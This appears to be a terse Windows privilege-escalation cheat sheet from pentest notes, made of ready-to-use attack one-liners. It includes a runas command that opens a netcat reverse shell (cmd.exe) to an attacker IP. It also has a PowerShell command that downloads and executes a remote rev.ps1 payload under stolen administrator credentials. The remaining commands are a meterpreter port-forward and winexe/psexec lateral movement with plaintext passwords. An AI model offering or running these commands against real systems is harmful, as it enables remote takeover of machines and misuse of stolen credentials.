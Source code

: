 # windows privesc


```sh
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\temp\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```

## powershell

Execute command as different user if you have the password

```ssh
$SecPass = ConvertTo-SecureString 'password' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)

Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://xxx.xxx.xxx:8000/rev.ps1')" -Credential $cred  
```

##  msf meterpreter portfwd
 
You can port potforward in meterpreter.
This tunnel 445 to your host so you can use psexec for privesc.
 
```ssh
portfwd add -l 445 -p 445 -r 127.0.0.1
```

Execute command

```
winexe -U administrator%password //127.0.0.1 cmd
psexec.py 'administrator:password@127.0.0.1' cmd
```
